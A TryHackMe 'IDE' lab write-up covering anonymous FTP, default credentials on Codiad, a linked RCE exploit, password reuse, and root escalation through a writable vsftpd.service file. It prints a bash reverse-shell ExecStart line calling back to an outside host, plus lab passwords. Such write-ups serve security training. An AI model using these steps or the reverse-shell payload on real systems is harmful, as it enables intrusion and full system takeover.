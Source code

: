```yaml
---
title: "Tryhackme - IDE"
classes: wide
tag: 
  - "Ftp"
  - "CVE"
  - "misconfiguration"
  - "sudo"
  - "vsftp.service"
  - "privsec"
header:
  teaser: /assets/images/THMlogo.png
ribbon: red
description: "Writeup for THM - IDE"
categories:
  - Tryhackme
---
```


# Port-Scan
``` sql
sakthi@debian:~/hacking/thm/ide$ rustscan -a 10.10.233.201
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/sakthi/snap/rustscan/28/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.233.201:21
Open 10.10.233.201:22
Open 10.10.233.201:80
Open 10.10.233.201:62337
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] 
Starting Nmap 7.60 ( https://nmap.org ) at 2021-10-17 18:25 IST
Initiating Ping Scan at 18:25
Scanning 10.10.233.201 [2 ports]
Completed Ping Scan at 18:25, 0.48s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:25
Completed Parallel DNS resolution of 1 host. at 18:25, 0.06s elapsed
DNS resolution of 1 IPs took 0.08s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:25
Scanning 10.10.233.201 [4 ports]
Discovered open port 21/tcp on 10.10.233.201
Discovered open port 22/tcp on 10.10.233.201
Discovered open port 80/tcp on 10.10.233.201
Discovered open port 62337/tcp on 10.10.233.201
Completed Connect Scan at 18:25, 0.35s elapsed (4 total ports)
Nmap scan report for 10.10.233.201
Host is up, received syn-ack (0.43s latency).
Scanned at 2021-10-17 18:25:25 IST for 1s

PORT      STATE SERVICE REASON
21/tcp    open  ftp     syn-ack
22/tcp    open  ssh     syn-ack
80/tcp    open  http    syn-ack
62337/tcp open  unknown syn-ack

Read data files from: /snap/rustscan/28/usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```
first we check port 21, ftp port anonymous login allowed 
``` sql
sakthi@debian:~/hacking/thm/ide$ ftp 10.10.233.201
Connected to 10.10.233.201.
220 (vsFTPd 3.0.3)
Name (10.10.233.201:sakthi): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 .
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 ..
drwxr-xr-x    2 0        0            4096 Jun 18 06:11 ...
226 Directory send OK.
ftp> 
```
what is ... ?
![image](https://user-images.githubusercontent.com/82046832/137628193-0e120b53-731a-499b-be75-6dece345d9f5.png)
download this hidden file 

open that file
![image](https://user-images.githubusercontent.com/82046832/137628310-c956b185-8f4e-427c-a6b5-fe122416925c.png)

**cat ./-**
``` sql
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

we have usernames john and drac,drac reset john password and the password is default one!!

i tried ssh bruteforce its not worked :/, lets findout the login page!!

## PORT 80
![image](https://user-images.githubusercontent.com/82046832/137628401-b7f37ebc-d5f6-4881-9164-e0c08b3f3ce5.png)
port 80 have default apache page nothing interstring 
(directory bruteforcing running against port 80 in background)

lets enum further ports

## PORT 62337

62337 its an unusual port

![image](https://user-images.githubusercontent.com/82046832/137628463-0b38f461-db6f-4f7a-b265-da31cd02c0ab.png)

whoah! we have login page of Codiad 2.8.4 
it have rce(authenticated) 
![image](https://user-images.githubusercontent.com/82046832/137628512-38447a1d-8ac5-4f0c-be6a-03b9ee940540.png)

we have users and password is default credentials(- file)

lets try to login john user default password is 'password' and we logged successfully!

![image](https://user-images.githubusercontent.com/82046832/137628575-6f3ca961-83f7-469d-89fc-8a803c4a2300.png)

let's use this [exploit](https://www.exploit-db.com/exploits/49705) to get initial shell
[code](https://www.exploit-db.com/raw/49705)

![image](https://user-images.githubusercontent.com/82046832/138459370-71c292ad-57d1-468f-8de8-1f49ef43cc44.png)
make sure run the following command(highlited in terminal)

got a shell
![image](https://user-images.githubusercontent.com/82046832/138459560-aca1bfc8-ae00-48eb-9d5c-76687dcfefa5.png)
# Horizontal Privillege Escalation

![image](https://user-images.githubusercontent.com/82046832/138459845-3d1e0222-3394-43f8-9919-cd0d412a2855.png)
got mysql creds of drac user , but unable to login to mysql so i try to use this creds for drac user password 

``` sql
www-data@ide:/home/drac$ su drac
su drac
Password: Th3dRaCULa1sR3aL

drac@ide:~$ cat user.txt
cat user.txt
02930d21a8*******4a466
drac@ide:~$ 
```
uff got user.txt

# Privilleged Escalation

sudo -l 

``` sql
drac@ide:~$ sudo -l
sudo -l
[sudo] password for drac: Th3dRaCULa1sR3aL

Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
drac@ide:~$ 
```
we can run ftp restart command in root 
*further reserach and linpeas report*
![image](https://user-images.githubusercontent.com/82046832/138460446-703b3c5d-b0c4-443a-a24b-17d9399abbf9.png)

we have permission to edit **vsftpd.service** file 

change the value ExecStart= , put our reverse shell payload or command to read root.txt and run 
 ```
  sudo /usr/sbin/service vsftpd restart
```
/lib/systemd/system/vsftpd.service
``` service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'exec bash -i &>/dev/tcp/10.17.12.54/9070 <&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```
![image](https://user-images.githubusercontent.com/82046832/138461544-5f3e6f5f-18fb-4b6c-9888-ccf1541ed2de.png)
![image](https://user-images.githubusercontent.com/82046832/138461623-46558bdf-fc77-4531-9162-ecc3f374df9c.png)








